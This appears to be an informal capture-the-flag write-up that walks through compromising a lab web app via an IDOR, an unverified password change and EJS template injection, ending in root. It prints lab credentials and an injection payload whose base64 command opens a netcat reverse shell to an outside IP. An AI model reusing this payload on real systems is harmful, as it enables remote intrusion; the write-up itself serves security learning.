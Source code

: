 this website is running :




tech_Stack :



dirbusteing:

dont have any interesting dir :





source code enum :
contains nothing,



vhosting:

we found a vhost :



add this into /etc/hosts: for maping




an admin pannel is hostied there :




and we have creds for this : given 



### Olivia Cortez : olivi8


and we have some payment details mention there :





we dont have permission to view /settings page :




some meseges we can see on /meseges page :



i change the value in messge paremeter and i got old chat messgese (IDOR)



     **Gayle Bev** :p~]P@5!6;rs558:q
     
     
     and i login as gayle and can access settings page :
     
     
     
     
     
     and we can see it is not verifying the user before changing the password :
     
     
     
     
     
     
     when i remove password paremeter : i got 500 internal error and notice that we can see internal files :
     but files are ending with .ejs 
     
     and username is web :


we found that there is server side template injection vulnerability in ejs :

and i found this payload :
name=a&password=b&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('bash -c “echo YnVzeWJveCBuYyAxMC4xNy4xMjMuNjAgMTMzNyAtZSAvYmluL2Jhc2gK  | base64 -d | bash”');//


 

name=a&password=b&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process')



and we got a shell after a lot of trial and error :





and i look for sudo permisssions :

and i perform sudoedit privilege escalation and got root



![unnamed_3a47551c7aa2498cbae74865a618f21d](unnamed_3a47551c7aa2498cbae74865a618f21d.png)
![unnamed_893844cae6e940779536508f45fa85e7](unnamed_893844cae6e940779536508f45fa85e7.png)
![unnamed_0094c0a856c34c0b95d0b6d82e2113a4](unnamed_0094c0a856c34c0b95d0b6d82e2113a4.png)
![unnamed_5b5edd25d0174373aa0fe2d627896fa5](unnamed_5b5edd25d0174373aa0fe2d627896fa5.png)
![unnamed_4d1b196c49ed4d45ab10875dc1dc4202](unnamed_4d1b196c49ed4d45ab10875dc1dc4202.png)
![unnamed_8c8438a161f04d52a672eca4302a1307](unnamed_8c8438a161f04d52a672eca4302a1307.png)
![unnamed_63948207e6354bdaa695eb5c3ab4c221](unnamed_63948207e6354bdaa695eb5c3ab4c221.png)
![unnamed_ca9a58116882450abb777f4f68d58777](unnamed_ca9a58116882450abb777f4f68d58777.png)
![unnamed_4e76277d66a8448bada176f2ec769df2](unnamed_4e76277d66a8448bada176f2ec769df2.png)
![unnamed_40a4992bf4ff4342b73ce61db76ae7ca](unnamed_40a4992bf4ff4342b73ce61db76ae7ca.png)
![unnamed_1d9fcbe3b5854a1c9501d391a80c998a](unnamed_1d9fcbe3b5854a1c9501d391a80c998a.png)
![unnamed_6283cfe59ae64c1db6c99c324ea01b55](unnamed_6283cfe59ae64c1db6c99c324ea01b55.png)
![unnamed_9405218419ae4c648cc5c2ba8a82226e](unnamed_9405218419ae4c648cc5c2ba8a82226e.png)
![unnamed_43896717b757497b866090f4a56caf63](unnamed_43896717b757497b866090f4a56caf63.png)
